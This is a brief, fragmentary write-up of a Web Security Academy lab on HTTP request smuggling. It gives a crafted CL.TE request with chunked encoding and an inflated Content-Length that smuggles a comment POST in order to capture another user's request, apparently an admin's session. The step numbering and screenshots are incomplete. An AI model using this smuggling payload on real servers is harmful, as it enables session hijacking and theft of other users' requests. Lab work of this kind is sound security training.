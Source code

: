 

1. Comment anything on the blog and copy the CSRF Token.
2. Send the following request to the blog;

```
POST / HTTP/1.1
Host: 0a93002503bf765980288aee007e009e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 276
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 930
Cookie: session=XPvVFFdAikLv5Awkt3RTk8uO35irYdC5

csrf=ew40ugGyNTkLJIvKDOf6iTAkYmQNBUtT&postId=5&name=foobar&email=foo%40bar.com&website=https%3a%2f%2fbar.com&comment=foo
```

> You need to increase the value of the content-length of the requests to achieve the admin request content size

I've tried a lot to resolve this lab

![](/static/img/Pasted_image_20231202104502.png)


4. ![](/static/img/Pasted_image_20231202104250.png)